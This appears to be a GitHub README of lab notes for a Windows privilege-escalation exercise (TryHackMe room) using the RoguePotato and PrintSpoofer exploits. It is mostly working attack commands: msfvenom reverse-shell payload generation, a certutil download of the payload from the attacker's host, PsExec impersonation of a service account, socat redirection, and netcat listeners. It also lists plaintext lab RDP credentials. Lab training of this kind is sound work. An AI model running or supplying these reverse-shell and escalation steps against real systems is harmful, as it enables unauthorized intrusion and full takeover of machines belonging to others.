


# Potato Family:2k19


Get a service account by exploiting or if you want to do a demo :

**Big Thanks to Tiberius for the awesome WinPriv course. You can checkout his awesome course here. I couldnot have done without his help and it is his setup :*
https://www.udemy.com/course/windows-privilege-escalation/


Binaries are in the folder called files.

You have to login as the admin and then spawn a shell using the following command which can mimic the service account you get when you exploit a service to obtain a shell.

To make the reverse executables:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=53 -f exe > rev.exe

```

To transfer them start a python server where you have these executables and this on the Windows shell.

```cmd
certutil -urlcache -split -f http://YOURIPFORTHEVPN:PORT/reverse.exe
```
To obtain a mimiced service account:

```cmd
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

https://tryhackme.com/room/windows10privesc

rdp creds
user:password321
admin:password123

--------------------------------------------------


RoguePotato.exe 

```zsh
RoguePotato.exe -r 10.11.11.238 -e "C:\PrivEsc\rev.exe" -l 9999
```
First IP is your Kali machine IP over the VPN

We have rev.exe using msfvenom which can connect to port 53 on our kali machine so:

```zsh
nc -lvnp 53
```

```zsh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.56:9999
```
Here the IP is the Windows IP which we are trying to crack into.


------------------------------------------------------

Printspoofer.exe

```cmd
PrintSpoofer.exe -i -c rev.exe                                                                                                                                   
PrintSpoofer.exe -i -c rev.exe                                                                                                                                              
[+] Found privilege: SeImpersonatePrivilege                                                                                                                                 
[+] Named pipe listening...                                                                                                                                                 
[+] CreateProcessAsUser() OK
```

```zsh
 nc -lvnp 53
```

